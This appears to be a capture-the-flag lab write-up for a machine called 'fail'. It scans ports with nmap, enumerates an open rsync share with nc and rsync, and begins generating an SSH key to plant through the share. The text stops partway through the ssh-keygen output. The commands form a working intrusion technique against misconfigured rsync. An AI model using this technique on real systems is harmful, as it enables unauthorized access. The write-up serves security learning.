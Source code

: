 # Network Enumeration

```bash
┌──(aaron㉿aacai)-[~/Desktop/pg/fail]
└─$ sudo nmap -sS -p1-65535 -Pn 192.168.178.126
Nmap scan report for 192.168.178.126
Host is up (0.28s latency).
Not shown: 65533 closed tcp ports (reset)
PORT    STATE SERVICE
22/tcp  open  ssh
873/tcp open  rsync
```

There are just 2 ports were opened, so the point is rsync. Look at to [HackTrick](https://book.hacktricks.xyz/network-services-pentesting/873-pentesting-rsync#manual-rsync)

# Rsync attack

```bash
┌──(aaron㉿aacai)-[~/Desktop/pg/fail]
└─$ nc 192.168.201.126 873
@RSYNCD: 31.0
@RSYNCD: 31.0
#list
fox             fox home
@RSYNCD: EXIT

```

Use nc to list the share things. Then we can know the username is fox.

```bash
┌──(aaron㉿aacai)-[~/Desktop/pg/fail]
└─$ rsync -av --list-only rsync://192.168.201.126/fox
receiving incremental file list
drwxr-xr-x          4,096 2021/01/21 17:51:59 .
lrwxrwxrwx              9 2020/12/03 23:52:42 .bash_history -> /dev/null
-rw-r--r--            220 2019/04/18 08:42:36 .bash_logout
-rw-r--r--          3,526 2019/04/18 08:42:36 .bashrc
-rw-r--r--            807 2019/04/18 08:42:36 .profile

```

Use list only to find all things at this share folder. Look at HackTrick again, that say can upload some content using rsync. Now try to generate ssh key.

```bash
┌──(aaron㉿aacai)-[~/.ssh]
└─$ ssh-keygen 
Generating public/private rsa key pair.
Enter file in which to save the key (/home/aaron/.ssh/id_rsa): 
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/aaron/.ssh/id_rsa
Your public key has been saved in /home/aaron/.ssh/id_rsa.pub
The key fingerprint is:
SHA256:mcBT8qcPYpK97OpDIC3wCN+1Br+BIFy8wGu1VJopMKQ aaron@aacai
The key's randomart image is:
+---[RSA 3072]----+
|*.o.... .        |
|*=.+=..+         |
|EB=*o=+.. .      |
|+o*ooo=o =       |
|.o .o.+oS        |
|    .+.o o       |
```